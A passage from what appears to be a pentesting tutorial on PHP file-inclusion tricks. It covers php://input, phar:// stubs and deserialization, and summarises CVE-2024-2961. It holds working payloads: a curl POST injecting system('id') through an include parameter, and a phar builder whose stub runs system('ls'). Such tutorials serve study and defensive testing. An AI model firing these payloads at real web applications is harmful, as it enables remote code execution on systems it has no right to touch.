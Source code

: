 Specify your payload in the POST parameters:

```
curl -XPOST "http://example.com/index.php?page=php://input" --data "<?php system('id'); ?>"
```

### phar:// <a href="#phar" id="phar"></a>

A `.phar` file can be utilized to execute PHP code when a web application leverages functions such as `include` for file loading. The PHP code snippet provided below demonstrates the creation of a `.phar` file:

```
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); system("ls"); ?>');
$phar->stopBuffering();
```

To compile the `.phar` file, the following command should be executed:

```
php --define phar.readonly=0 create_path.php
```

Upon execution, a file named `test.phar` will be created, which could potentially be leveraged to exploit Local File Inclusion (LFI) vulnerabilities.

In cases where the LFI only performs file reading without executing the PHP code within, through functions such as `file_get_contents()`, `fopen()`, `file()`, `file_exists()`, `md5_file()`, `filemtime()`, or `filesize()`, exploitation of a deserialization vulnerability could be attempted. This vulnerability is associated with the reading of files using the `phar` protocol.

For a detailed understanding of exploiting deserialization vulnerabilities in the context of `.phar` files, refer to the document linked below:

[Phar Deserialization Exploitation Guide](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)

[PAGEphar:// deserialization](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)

#### CVE-2024-2961 <a href="#cve-2024-2961" id="cve-2024-2961"></a>

It was possible to abuse **any arbitrary file read from PHP that supports php filters** to get a RCE. The detailed description can be [**found in this post**](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1)**.** Very quick summary: a **3 byte overflow** in the PHP heap was abused to **alter the chain of free chunks** of anspecific size in order to be able to **write anything in any address**, so a hook was added to call **`system`**. It was possible to alloc chunks of specific sizes abusing more php filters.

#### More protocols <a href="#more-protocols" id="more-protocols"></a>

Check more possible[ **protocols to include here**](https://www.php.net/manual/en/wrappers.php)**:**
